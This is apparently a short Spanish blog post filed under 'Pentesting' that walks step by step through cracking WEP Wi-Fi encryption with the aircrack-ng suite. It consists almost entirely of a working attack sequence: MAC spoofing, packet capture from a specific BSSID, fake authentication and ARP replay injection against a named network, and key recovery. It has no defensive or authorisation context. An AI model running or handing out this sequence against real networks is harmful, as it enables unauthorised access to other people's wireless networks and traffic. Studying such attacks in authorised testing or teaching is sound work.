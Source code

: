 Title: Wep
Date: 2015-09-6 14:04
Modified: 2015-09-6 14:04
Category: Pentesting
Tags: wep, aircrack
Slug: wep
Authors: procamora
Summary:

```
airmon-ng
airmon-ng stop wlan0
ifconfig wlan0 down
macchanger --mac 00:11:22:33:44:55 wlan0
airmon-ng start wlan0
```

--AHORA EMPEZAMOS--

`airodump-ng wlan0`

`airodump-ng -c '6' -w 'paquetes' --bssid 'A0:21:B7:D5:A8:78' wlan0`

*-c = canal (CH), -w = lugar donde se guardan los paquetes, --bssid = es el BSSID*


`aireplay-ng -1 0 -a 'A0:21:B7:D5:A8:78' -h '00:11:22:33:44:55' -e 'wifyrocky' wlan0`

*-a = BSSID que atacamos, -h = mac nuestra, -e = nombre wify que atacamos*

`aireplay-ng -3 -b 'A0:21:B7:D5:A8:78' -h '00:11:22:33:44:55' wlan0`

*-b = BSSID que atacamos, -h = mac nuestra*

`aircrack-ng 'paquetes-01.cap'`

*donde están guardados los paquetes*
